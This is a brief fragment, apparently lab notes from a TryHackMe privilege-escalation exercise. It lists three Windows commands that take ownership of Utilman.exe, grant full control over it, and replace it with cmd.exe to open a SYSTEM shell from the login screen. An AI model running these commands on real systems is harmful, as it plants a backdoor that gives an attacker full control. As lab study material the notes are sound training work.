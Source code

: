 ![57294193e23027665a8275b393c45147.png](../../../../_resources/57294193e23027665a8275b393c45147.png)

```
C:\> takeown /f C:\Windows\System32\Utilman.exe
```

```
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```

```
copy cmd.exe utilman.exe
```

